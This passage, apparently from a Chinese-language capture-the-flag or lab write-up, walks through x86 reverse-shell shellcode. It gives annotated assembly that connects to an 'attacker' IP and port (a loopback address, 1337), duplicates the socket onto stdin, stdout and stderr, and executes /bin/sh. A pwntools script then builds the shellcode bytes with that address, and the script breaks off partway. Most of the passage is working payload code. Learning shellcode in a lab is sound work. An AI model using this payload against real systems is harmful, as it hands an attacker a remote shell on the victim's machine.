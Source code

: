 **功能**：

* 连接到攻击者的 IP (`127.1.1.1`​) 和端口 (`1337`​)。

‍

### 3. **重定向标准输入、输出和错误**

```asm
push   0x2         ; 将 2 压栈
pop    ecx         ; ecx = 2 (stdout 的文件描述符)
xchg   edx, ebx    ; 将 socket 的文件描述符保存到 ebx

loop:
mov    al, 0x3f    ; eax = 0x3f (dup2 的系统调用号)
int    0x80        ; 调用 dup2，将 socket fd 复制到 ecx 指定的文件描述符
dec    ecx         ; ecx-- (依次处理 stderr, stdout, stdin)
jns    loop        ; 如果 ecx >= 0，继续循环
```

**功能**：

* 将 socket 的文件描述符复制到 `stdin (0)`​、`stdout (1)`​ 和 `stderr (2)`​。

‍

### 4. **执行**  **​`/bin/sh`​**​

```asm
mov    al, 0xb     ; eax = 0xb (execve 的系统调用号)
inc    ecx         ; ecx = 0
mov    edx, ecx    ; edx = 0
push   edx         ; 将 0 (null terminator) 压栈
push   0x68732f2f  ; 将 "//sh" 压栈
push   0x6e69622f  ; 将 "/bin" 压栈
mov    ebx, esp    ; ebx 指向 "/bin//sh" 的地址
int    0x80        ; 调用 execve，执行 /bin/sh
```

**功能**：

* 执行 `/bin/sh`​，提供一个交互式 shell。

‍

# 解决后

通过上面的shellcode构建，我们就可以在本地获取到shell了。

Use.py

```python
from pwn import *
#import os

sh = b'\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68'

ip = [127,1,1,1]

k = b''
for i in ip:
    k += i.to_bytes()
sh += k #ip 
#print(k)
sh += b'\x66\x68'
port = 1337
#print(hex(port))
sh += b'\x05\x39' #port

```